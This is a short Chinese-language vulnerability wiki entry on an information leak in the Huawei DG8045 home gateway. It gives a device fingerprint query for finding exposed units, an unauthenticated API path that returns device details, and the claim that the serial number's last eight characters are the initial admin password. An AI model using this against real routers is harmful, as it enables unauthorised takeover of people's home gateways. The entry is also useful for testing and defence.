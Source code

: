 

# Huawei DG8045 deviceinfo 信息泄漏漏洞

## 漏洞描述

Huawei DG8045 deviceinfo api接口存在信息泄漏漏洞，攻击者通过泄漏的信息可以获得账号密码登录后台

## 漏洞影响

<a-checkbox checked>Huawei DG8045</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="DG8045-Home-Gateway-DG8045"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1648696791637-1a79e231-0011-4736-ba99-d8f60c3edb90.png)

验证POC

```php
/api/system/deviceinfo
```

![img](/assets/PeiQi-Wiki/img/1648697448559-e9f4657e-ef69-40d3-aa61-abc87a2a0f53.png)

SerialNumber 后8位即为初始密码